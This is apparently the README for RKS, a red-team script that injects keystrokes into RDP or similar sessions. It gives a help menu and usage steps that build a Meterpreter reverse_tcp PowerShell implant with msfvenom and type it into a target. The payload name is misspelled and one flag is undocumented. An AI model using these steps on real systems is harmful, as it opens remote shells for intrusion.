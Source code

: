 # RKS (RemoteKeyStrokes)

## 01 - Help Menu

```
$ ./rks.sh -h
Usage: rks.sh [-c <cmdfile> | -i <input> -o <tofile>] [-w <windowname>] [-h]
Options:
    -c, --cmdfile <cmdfile>     Specify the file containing commands to execute
    -i, --input <input>         Specify the input file to transfer
    -o, --tofile <tofile>       Specify the output file to transfer
    -w, --windowname <name>     Specify the window name for RDP (FreeRDP is set
                                by default if not specified)

    -h, --help                  Display this help message
```

## 02 - Usage

```
$ msfvenom -p windowx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh -o implant.ps1

$ ./rks.sh -c "powershell.exe" -m dialogbox

$ ./rks.sh -c implant.ps1
```

---
## References

- [RKS (RemoteKeyStrokes)](https://github.com/U53RW4R3/RKS)

- [Sending Keystrokes to Your (Virtual) Machines using X, Vnc , Rdp or Native ways](https://web.archive.org/web/20220712164101/https://www.jedi.be/blog/2010/08/29/sending-keystrokes-to-your-virtual-machines-using-X-vnc-rdp-or-native/)